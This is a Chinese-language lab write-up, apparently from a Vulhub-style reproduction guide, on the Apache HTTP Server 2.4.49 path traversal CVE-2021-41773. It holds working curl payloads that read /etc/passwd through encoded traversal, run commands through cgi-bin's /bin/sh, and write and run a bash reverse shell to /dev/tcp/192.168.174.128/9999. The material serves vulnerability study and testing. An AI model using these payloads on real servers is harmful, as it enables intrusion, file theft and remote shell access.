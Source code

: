 # Apache HTTP Server 2.4.49 路径穿越漏洞 CVE-2021-41773

## 漏洞描述

Apache HTTP Server是Apache基金会开源的一款流行的HTTP服务器。在其2.4.49版本中，引入了一个路径穿越漏洞，满足下面两个条件的Apache服务器将会受到影响：

- 版本等于2.4.49
- 穿越的目录允许被访问，比如配置了`<Directory />Require all granted</Directory>`。（默认情况下是不允许的）

攻击者利用这个漏洞，可以读取位于Apache服务器Web目录以外的其他文件，或者读取Web目录中的脚本文件源码，或者在开启了cgi或cgid的服务器上执行任意命令。

参考链接：

- https://httpd.apache.org/security/vulnerabilities_24.html
- https://twitter.com/ptswarm/status/1445376079548624899
- https://twitter.com/HackerGautam/status/1445412108863041544
- https://twitter.com/snyff/status/1445565903161102344

## 环境搭建

Vulhub执行如下命令编译及运行一个存在漏洞的Apache HTTPd 2.4.49版本服务器：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到Apache默认的`It works!`页面。

## 漏洞复现

使用如下CURL命令来发送Payload（注意其中的`/icons/`必须是一个存在且可访问的目录）：

```
curl -v --path-as-is http://your-ip:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

> `-v`参数输出通信的整个过程，用于调试。

可见，成功读取到`/etc/passwd`：

![image-20220221183038882](images/202202211830137.png)

在服务端开启了cgi或cgid这两个mod的情况下，这个路径穿越漏洞将可以执行任意命令：

```
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```

![image-20220221183147331](images/202202211831505.png)

写入反弹shell

```
curl -v --data "echo;echo 'bash -i >& /dev/tcp/192.168.174.128/9999 0>&1'>> /tmp/shell.sh" 'http://192.168.174.128:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```

执行反弹shell

```
curl -v --data "echo;bash /tmp/shell.sh" 'http://192.168.174.128:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```

![image-20220221184049972](images/202202211840056.png)

